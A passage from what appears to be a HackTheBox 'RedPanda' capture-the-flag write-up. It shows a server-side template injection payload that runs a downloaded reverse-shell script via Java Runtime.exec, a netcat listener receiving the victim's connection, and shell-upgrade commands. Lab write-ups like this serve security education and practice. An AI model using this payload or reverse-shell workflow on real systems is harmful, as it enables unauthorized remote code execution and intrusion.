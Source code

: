 ![Image](/assets/img/WriteUp/HTB/RedPanda/Pasted image 20240520095624.png){: width="700" height="400" }
Let's check if the file has been downloaded from our python web server.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.227.207 - - [20/May/2024 09:53:53] "GET /rev.sh HTTP/1.1" 200 -
```
The file has been downloaded. 
The payload to start our reverse shell looks like this.
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('bash  /tmp/rev.sh').getInputStream())}
```

Now we should execute the script via Burp Suite Repeater.

![Image](/assets/img/WriteUp/HTB/RedPanda/Pasted image 20240520095753.png){: width="700" height="400" }

Let's check the netcat listener since Burp is still loading.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ rlwrap nc -lvp 443
listening on [any] 443 ...
10.129.227.207: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.129.227.207] 45054


```
We did receive a connection from the victim, but the shell is not good enough yet. So let's upgrade it.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
woodenk@redpanda:/tmp/hsperfdata_woodenk$ export PATH=/usr/local/sbin:/usr/local/binexport PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
woodenk@redpanda:/tmp/hsperfdata_woodenk$ export TERM=xterm-256color                export TERM=xterm-256color  
export TERM=xterm-256color  
woodenk@redpanda:/tmp/hsperfdata_woodenk$ alias ll='ls -lsaht --color=auto'         alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'  
woodenk@redpanda:/tmp/hsperfdata_woodenk$ 
```
Now we have to send it to the background with `CTRL` + `Z` so we can run one command on our machine and we can move back to the victim.
```bash
zsh: suspended  rlwrap nc -lvp 443                                                              
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ stty raw -echo ; fg ; reset  
[2]  - continued  rlwrap nc -lvp 443
woodenk@redpanda:/tmp/hsperfdata_woodenk$ stty columns 200 rows 200                 stty columns 200 rows 200
stty columns 200 rows 200
woodenk@redpanda:/tmp/hsperfdata_woodenk$ 

```
